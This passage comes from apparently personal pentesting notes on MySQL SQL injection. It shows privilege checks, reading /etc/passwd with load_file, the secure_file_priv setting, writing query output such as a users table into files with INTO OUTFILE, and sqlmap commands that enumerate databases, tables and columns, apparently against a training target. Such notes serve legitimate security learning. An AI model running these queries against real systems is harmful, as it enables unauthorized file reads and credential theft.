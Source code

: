 ```MySQL
```
Then we need to check its privileges.
```MySQL
select super_priv from mysql.user where user="<our username>";
```
If the last query returns a `Y` that should mean that we've got *DBA* privileges. Another way to see it would be:
```MySQL
select grantee, privilege_type from information_schema.user_privileges;
```
If the last query reports that our user has got the **FILE** privilege we are all set to do so.
## Loading a File
The `load_file()` function can be used to read data from files, the function takes in only one argument.
```MySQL
select load_file('/etc/passwd');
```
## Writing a File
Requirements:
- User with **FILE** privileges
- MySQL global **secure_file_priv** variable not enabled
- Write access to the location we want to write to on the back-end server
### secure_file_priv variable
An empty value lets us read files from the entire file system. Otherwise, if a certain directory is set, we can only read from the folder specified by the variable. On the other hand, `NULL` means we cannot read/write from any directory. *MariaDB* has this variable set to *empty by default*, which lets us read/write to any file if the user has the `FILE` privilege. However, *MySQL* uses `/var/lib/mysql-files` as the *default* folder. This means that reading files through a `MySQL` injection isn't possible with default settings. Even worse, some modern configurations default to `NULL`, meaning that we cannot read/write files anywhere within the system.
To obtain the value of such variable run:
```MySQL
show variables like 'secure_file_priv';
```
However on an injection since we would most likely using select, run:
```MySQL
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv";
```
Once we have discovered our writing permissions use the following to write into files:
```MySQL
select * from users into outfile '/tmp/credentials.txt'
select "this is a test" into outfile '/tmp/test.txt'
```
Note how we can either save the output of queries or just make up the content we want to write. For long file exports use the `FROM_BASE64('base64_data')` funtion.

# Automated Tools
## sqlmap
Intercept request with [[Burp Suite]] and save it to a file (in our cas *request.req*).
![[2.png]]
```bash
sqlmap -r request.req -p searchitem --batch --dbs
```
With the last command *sqlmap* will dump the existing databases if the system is injectable.
![[3.png]]
From here, we can keep on listing tables, columns and values.
```bash
sqlmap -r request.req -p searchitem --batch -D sqlitraining --tables
sqlmap -r request.req -p searchitem --batch -D sqlitraining -T users --columns
```